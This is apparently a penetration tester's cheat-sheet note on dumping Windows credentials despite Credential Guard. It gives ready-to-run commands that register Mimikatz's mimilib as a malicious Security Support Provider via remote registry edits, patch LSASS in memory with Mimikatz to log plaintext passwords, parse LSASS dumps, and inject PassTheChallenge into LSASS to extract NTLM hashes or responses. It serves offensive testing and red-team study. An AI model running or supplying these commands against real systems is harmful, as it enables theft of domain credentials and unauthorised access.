```yaml
---
title: LSASS Dump against Credential Guard
---
```


[[notes/windows/lsass-dump]] in face of Windows Defender Credential Guard.

When Credential Guard is enabled, credentials are no longer stored in the LSASS process memory, but in the LSAISO process, which is isolated by *Virtualization-based Security* (VBS).
Custom *Security Support Providers* are not blocked.
Credential Guard is enabled by default on Windows 11 ([source](http://web.archive.org/web/20230530211030/https://emptydc.com/2022/06/08/windows-credential-dumping/)).

Check if Credential Guard is enabled.

=== "PowerShell"
    ~~~ ps1
    (Get-ComputerInfo).DeviceGuardSecurityServicesRunning
    ~~~

=== "cmd"
    ~~~ bat
    tasklist.exe /fi "imagename eq lsaiso.exe"
    ~~~

# Security Support Provider (SSP)

Credential Guard can be bypassed by installing a malicious *Security Support Provider*.
The passwords of all future logons are captured in plain text.

## a) Modifying the registry

Upload `mimilib.dll` from Mimikatz to `C:\Windows\System32\mimilib.dll`.

Read installed security packages.

~~~ bash
impacket-reg corp.local/jdoeadm:'passw0rd'@srv01.corp.local query -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'Security Packages' -s
~~~

Append `mimilib` to the list.

~~~ bash
impacket-reg corp.local/jdoeadm:'passw0rd'@srv01.corp.local add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'Security Packages' -vd 'kerberos msv1_0 schannel wdigest tspkg pku2u mimilib' -vt REG_MULTI_SZ
~~~

Passwords are written to `C:\Windows\System32\kiwissp.log` after a reboot.

References:

- [Custom SSP](https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-python-edition#bkmrk-custom-ssp)

## b) Patching LSASS

Patch LSASS in memory with [Mimikatz](https://github.com/gentilkiwi/mimikatz).
This might be unstable.
Passwords are written to `C:\Windows\System32\mimilsa.txt` until the next restart.

~~~ bat
.\mimikatz.exe "privilege::debug" "misc::memssp" "exit"
~~~

Alternatively patch LSASS in memory with [CredGuardBypassOffsets](https://github.com/itm4n/Pentest-Windows/tree/main/CredGuardBypassOffsets) or [BypassCredGuard](https://github.com/wh0nsq/BypassCredGuard) to enable [[notes/windows/wdigest-dump]] and cache passwords in clear text from then on.

# Pass the Challenge

First obtain a regular LSASS dump, then parse it with this [PyPyKatz fork](https://github.com/ly4k/Pypykatz).

~~~ bash
./pypykatz.py lsa minidump ./lsass.dmp -p msv
~~~

Then inject a security package into LSASS that provides a communication channel from userspace to LSAISO.
This is implemented in [PassTheChallenge](https://github.com/ly4k/PassTheChallenge).

~~~ bat
.\PassTheChallenge.exe inject .\SecurityPackage.dll
~~~

a) NTLMv1

Retrieve an [[notes/ad/ntlmv1]] response from LSAISO and crack it.

~~~ bat
.\PassTheChallenge.exe nthash %context_handle%:%proxy_info% %encrypted_blob%
~~~

[Internal-Monologue](https://github.com/eladshamir/internal-monologue) implements a similar attack.
It enables NTLMv1 on the host, then injects code into a process of a high value user that opens a connection to an attacker SMB server for capturing.

b) NTLMv2

Use this [Impacket fork](https://github.com/ly4k/Impacket) to print out the NTLM challenge when connecting to a system.

~~~ bash
./psexec.py corp.local/jdoeadm:CHALLENGE@dc01.corp.com
~~~

Submit the challenge to LSAISO to let it calculate the response.

~~~ bat
.\PassTheChallenge.exe challenge %context_handle%:%proxy_info% %encrypted_blob% %challenge%
~~~

Then pass the response back to Impacket.

References:

- [Pass-the-Challenge: Defeating Windows Defender Credential Guard](http://web.archive.org/web/20221229140832/https://scribe.rip/@oliverlyak/pass-the-challenge-defeating-windows-defender-credential-guard-31a892eee22)
